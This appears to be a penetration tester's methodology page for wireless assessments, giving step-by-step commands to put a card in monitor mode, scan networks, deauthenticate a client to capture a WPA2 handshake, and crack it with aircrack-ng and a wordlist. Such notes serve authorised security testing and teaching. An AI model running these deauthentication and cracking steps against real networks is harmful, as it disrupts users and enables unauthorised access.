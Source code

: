 # Wireless PT

## Assessment of wireless network Types

* WPA2 PSK (Personal, small network)
* WPA2 Enterprise&#x20;



## Activites Performed

* Evaluating strength of PSK
* Reviewing nearby networks
* Assessing guest networks
* Checking network access



## Tools being used

* Wireless card (ex Alfa AWUS 036NH)
* Router (ex tp-link AC2300 Wireless)
* Laptop



## Methodology

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 16.35.12.png" alt=""><figcaption></figcaption></figure>



## WPA PS2 Exploit

1. Connect the Wireless card to our Laptop and check if it's connected

```
iwconfig 
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 16.39.47.png" alt=""><figcaption></figcaption></figure>

2. Setting up the wireless card to monitor networks

Before doing that, kill other process still running

```
airmon-ng check kill
```

Then, start the monitor with `airmon-ng` tool

```
airmon-ng start wlan0
```

Check the monitor interface with this command

```
iwconfig
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 16.47.33.png" alt=""><figcaption></figcaption></figure>



3. Search for nearby networks using `airodump-ng` tool and the monitor interface

```bash
airodump-ng wlan0mon
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 22.43.04.png" alt=""><figcaption></figcaption></figure>

* `BSSID`: MAC address of the access point
* `PWR`: less number equal that the AP is get close.
* `CH`: channel of the AP



4. Get the devices connected to the AP with the following command

```bash
airodump-ng -c 6 --bssid <MAC> -w capture wlan0mon
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 23.10.50.png" alt=""><figcaption></figcaption></figure>

* `STATION`: is the MAC address of connected devices to the AP



5. Open new terminal, copy a MAC address of a connected device from the STATION column of the previous command and then **perform a Deauth Attack** to capture the Handshake with follow command.

```bash
aireplay-ng -0 1 -a <AP_MAC_ADDRESS> -c <CLIENT_MAC_ADDRESS> wlan0mon
```

* `-0`: specify the deuath attack
* `1`: how much time repeat the attack
* `-a`: specify the ap mac address
* `-c`: specify the client device mac address took from STATION column

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 23.29.12.png" alt=""><figcaption></figcaption></figure>



6. Wait that the airodump-ng command **capture the WPA Handshake**, when the client device will reconnect to the AP.

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 23.41.16.png" alt=""><figcaption></figcaption></figure>

The handshake will store in capture file in the current directory

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 23.44.20.png" alt=""><figcaption></figcaption></figure>

7. Use `aircrack-ng` to cracking the handshake from the capture file.

```bash
aircrack-ng -w /PATH/TO/wordlist.txt -b <BSSID_AP> CAPTURE_FILE.cap
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-08-23 at 23.47.34 (1).png" alt=""><figcaption></figcaption></figure>

